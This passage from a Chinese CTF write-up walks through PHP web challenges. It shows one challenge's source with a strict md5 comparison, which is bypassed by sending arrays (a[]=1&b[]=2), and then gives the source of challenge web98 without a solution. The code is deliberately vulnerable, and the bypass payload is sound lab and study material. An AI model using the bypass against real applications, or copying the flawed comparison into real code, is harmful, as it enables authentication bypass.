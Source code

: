 ```php
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
else
print 'Wrong.';
}
?>
```

这是一道md5强比较的题目，绕过姿势挺多

我们可以通过简单的数组绕过

```
a[]=1&b[]=2
```

虽然会报错但是能拿到flag

![image-20241130204752518](assets/image-20241130204752518.png)

#### web98

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 21:39:27
# @link: https://ctfer.com

*/

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?>
```
